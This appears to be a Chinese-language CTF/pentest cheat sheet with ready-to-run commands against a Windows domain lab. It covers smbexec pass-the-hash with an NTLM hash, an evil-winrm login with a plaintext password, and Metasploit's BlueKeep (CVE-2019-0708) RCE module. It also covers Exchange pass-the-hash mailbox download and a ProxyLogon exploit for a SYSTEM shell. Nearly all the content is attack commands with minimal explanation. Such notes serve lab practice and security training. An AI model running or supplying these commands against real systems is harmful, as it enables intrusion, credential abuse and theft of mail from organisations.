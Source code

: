 ```bash
python smbexec.py -hashes :04d93ffd6f5f6e4490e0de23f240a5e9 xiaorang.lab/administrator@172.22.6.12 -codec gbk
```

### Evil-Whinrm

**Evil-Whinrm的使用前提：**

- 开放5985端口（默认）

（工具在kali上）

```bash
evil-winrm  -i 192.168.1.100 -u Administrator -p 'MySuperSecr3tPass123!
```

### CVE-2019-0708

当未经身份验证的攻击者使用RDP连接到目标系统并发送经特殊设计的请求时，远程桌面服务中存在远程执行代码漏洞。此漏洞是预身份验证，无需用户交互。成功利用此漏洞的攻击者可以在目标系统上执行任意代码。攻击者可随后安装程序；查看、更改或删除数据；或者拥有完全用户权限的新账户。

#### MSF下的利用

```bash
use exploit/windows/rdp/cve_2019_0708_bluekeep_rce 
set rhosts 192.168.152.136
set target 1 # 根据靶机环境选定
exploit
```

### EXChange哈希传递下载邮件

[pthexchange.py](F:\ctfTools\PTH_Exchange\pthexchange.py)

run 运行程序（password）

```bash
python pthexchange.py  --target https://mail.exchange.com --username "yourusername" --password "yourpassword" --action Download
```

run 运行程序（NTLM HASH）：

```bash
python pthexchange.py  --target https://mail.exchange.com --username "yourusername" --password "00000000000000000000000000000000:11111111111111111111111111111111" --action Download
```

### EXChange proxylogon 获取system权限shell

**文章** [复现Microsoft Exchange Proxylogon漏洞利用链 - 先知社区](F:\LocalCTF\复现Microsoft Exchange Proxylogon漏洞利用链 - 先知社区.html)

[proxylogon.py](F:\ctfTools\ProxyLogon\proxylogon.py)

```bash
python3 proxylogon.py 172.22.3.9 administrator@xiaorang.lab
```
